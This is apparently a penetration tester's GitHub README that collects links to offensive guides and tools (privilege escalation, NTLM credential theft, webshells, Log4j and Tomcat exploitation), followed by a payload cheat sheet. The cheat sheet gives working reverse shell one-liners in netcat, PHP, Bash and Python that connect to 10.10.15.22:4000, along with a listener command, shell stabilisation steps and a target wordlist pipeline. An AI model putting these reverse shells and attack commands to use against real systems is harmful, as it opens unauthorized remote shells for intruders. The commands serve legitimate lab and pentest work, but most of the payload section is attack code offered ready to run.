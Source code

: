 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Windows Local Privillage Escalation Checklist**](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
## Log4J
- [**Log4j Exploatation**](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
## Payloads
- [**Apache Tomcat RCE through WAR file**](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
## Reverse Engineering
- [**Write-up for ROP exploit**](https://shakuganz.com/2021/06/08/hackthebox-you-know-0xdiablos-write-up/)
- [**Return Oriented Programing**](https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)
- [**LXD Privillage Escalation**](https://www.hackingarticles.in/lxd-privilege-escalation/)
- [**LXD Exploatation**](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)
## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)
- [**NC.EXE**](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
- [**WinPeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [**Rogue JNDI**](https://github.com/veracode-research/rogue-jndi)
- [**RsaCtfTool**](https://github.com/RsaCtfTool/RsaCtfTool)
- [**Ghidra**](https://github.com/NationalSecurityAgency/ghidra/releases)
- [**OllyDBG**](https://www.ollydbg.de/)
- [**checksec**](https://github.com/slimm609/checksec.sh)
# Payloads
## Profiling Password Lists
### CEWL
```ULTIMATE WAY OF CREATING A WORDLIST
1.DIRECTORY BRUTEFORCING
feroxbuster -eknr --wordlist $HOME/tools/crimson/words/dir -u https://<target_domain>/ -o ferox.txt
2. PREPARE FIRST PART OF THE cewl.txt
cat ferox.txt | grep 200 | grep -v "png\|\.js" | cut -d "h" -f2-100 | sed "s/^/h/g" >> urls.txt
for url in $(cat urls.txt); do echo $url && cewl -d 5 $url >> temp_cewl.txt;done
cat temp_cewl.txt | sort -u >> cewl.txt && rm temp_cewl.txt
3. GO TO BURP AND SELECT ALL 200 NON STATIC SITES
```
## Nmap
### Null Scan 
```nmap  -n -sN 10.10.110.0/24```
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### PHP:
```<?php $sock = fsockopen("ip","port");$proc = proc_open("bin/sh -i", array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
